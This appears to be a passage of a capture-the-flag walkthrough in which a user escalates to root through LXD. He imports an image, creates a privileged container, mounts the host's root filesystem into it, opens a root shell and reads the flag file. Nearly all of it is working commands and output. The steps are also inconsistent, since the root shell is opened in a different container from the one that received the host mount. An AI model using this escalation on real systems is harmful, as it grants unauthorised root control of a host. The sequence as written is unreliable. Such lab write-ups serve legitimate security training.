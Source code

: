 ```
john@exploitable:/tmp$ lxc image import --alias myminimal lxd.tar.xz rootfs.squashfs 
Image imported with fingerprint: 3fd9f575e8312f2df6490e37cce8bdec46a378e73d4fd75fe18ff5c3b7479c70
```
launch it

```
john@exploitable:/tmp$ lxc launch myminimal mycontainer
Creating mycontainer
Starting mycontainer
```
check it
```
john@exploitable:/tmp$ lxc list mycontainer
+-------------+---------+------+-----------------------------------------------+------------+-----------+
|    NAME     |  STATE  | IPV4 |                     IPV6                      |    TYPE    | SNAPSHOTS |
+-------------+---------+------+-----------------------------------------------+------------+-----------+
| mycontainer | RUNNING |      | fd42:2998:1e63:3d6f:216:3eff:fe24:9e2d (eth0) | PERSISTENT | 0         |
+-------------+---------+------+-----------------------------------------------+------------+-----------+
```
create a new container with right priviledges

```
john@exploitable:/tmp$ lxc init myminimal ignite -c security.privileged=true
Creating ignite
```
Mount the `/` folder in the container and start it

```
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite

john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh

```
Get a root shell in that

```
john@exploitable:/tmp$ lxc exec mycontainer -- sh
~ # id
uid=0(root) gid=0(root)
```
Go grab the flags where they are

```
~ # cd /mnt/root
/mnt/root # ls
bin             cdrom           etc             initrd.img      lib             lost+found      mnt             proc            run             snap            swap.img        tmp             var             vmlinuz.old
boot            dev             home            initrd.img.old  lib64           media           opt             root            sbin            srv             sys             usr             vmlinuz
/mnt/root # cd root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
lxd_final_boss_flag
```

Game Over...you win!

